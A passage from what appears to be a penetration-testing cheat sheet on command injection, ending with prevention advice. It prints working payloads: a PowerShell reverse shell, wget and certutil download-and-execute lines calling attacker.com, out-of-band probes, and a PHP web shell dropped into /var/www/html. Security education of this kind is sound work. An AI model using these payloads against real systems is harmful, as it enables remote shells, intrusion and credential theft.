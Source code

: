         * `cmd=; powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<attacker_ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`
    * **Download and Execute**:
        * `cmd=; wget http://attacker.com/malicious.sh -O /tmp/s.sh; bash /tmp/s.sh` (Linux)
        * `cmd=; certutil.exe -urlcache -f -split http://attacker.com/malicious.exe C:\temp\malicious.exe; C:\temp\malicious.exe` (Windows)

### Command Injection Blind Techniques

Similar to Blind SQLi, if there's no direct output, observe side-effects.

* **Time-based Delay**:
    * `cmd=; sleep 5` (Linux)
    * `cmd=; timeout /t 5` (Windows)
    * `cmd=; ping -n 5 127.0.0.1` (Windows)
* **Out-of-Band Interaction (DNS/HTTP request)**:
    * `cmd=; ping -c 1 <subdomain>.attacker.com` (Linux - triggers DNS lookup)
    * `cmd=; nslookup <subdomain>.attacker.com` (Windows - triggers DNS lookup)
    * `cmd=; wget http://attacker.com/test` (Linux - triggers HTTP request)
    * `cmd=; powershell -c "Invoke-WebRequest -Uri http://attacker.com/test"` (Windows - triggers HTTP request)
* **Error-based (less common, but possible)**: Craft commands that would cause an error message that might be displayed.

### Command Injection Use Cases

* **Remote Server Control**: Gaining a shell on the target system.
* **Sensitive File Access**: Reading `/etc/shadow`, `/etc/nginx/nginx.conf`, database credentials, etc.
* **Network Enumeration**: `ip a`, `ifconfig`, `netstat -tulnp`.
* **User/Privilege Enumeration**: `whoami`, `id`, `cat /etc/sudoers`.
* **Data Exfiltration**: Using `curl` or `wget` to send sensitive data to an external server.
* **Web Shell Deployment**: Writing a simple web shell to a web-accessible directory.
    * `cmd=; echo '<?php system($_GET["c"]); ?>' > /var/www/html/shell.php`

### Command Injection Prevention (Important for Testers to Know)

* **Avoid Calling External Commands**: If possible, use safer, language-specific APIs instead of directly executing system commands (e.g., use built-in functions for file operations rather than `ls` or `cat`).
* **Input Validation (Whitelisting)**: The most effective defense. Only allow known good characters and reject all others. Define a strict set of allowed characters and patterns. Do not blacklist.
    * **Example**: If an input should only be a filename, validate that it contains only alphanumeric characters, underscores, and hyphens, and no directory traversal (`../`) sequences.
* **Sanitization/Escaping**: If external commands *must* be used, carefully escape or sanitize any user-supplied input that is passed to the command. Each shell (Bash, Cmd.exe, PowerShell) has different escaping rules. This is complex and error-prone.
* **Least Privilege**: The application user running the commands should have the absolute minimum necessary permissions on the operating system.
* **Disable Dangerous Functions**: Disable or restrict functions known to be problematic if not strictly necessary (e.g., `exec()`, `shell_exec()`, `system()` in PHP; `java.lang.Runtime.exec()` in Java; `subprocess.call()` in Python).
* **Environment Variables**: Carefully manage environment variables used by external commands.
* **Secure Deployment**: Run applications in containers (Docker, Kubernetes) or chrooted environments to limit the impact of a compromise.
* **WAF (Web Application Firewall)**: Can help detect and block common command injection patterns.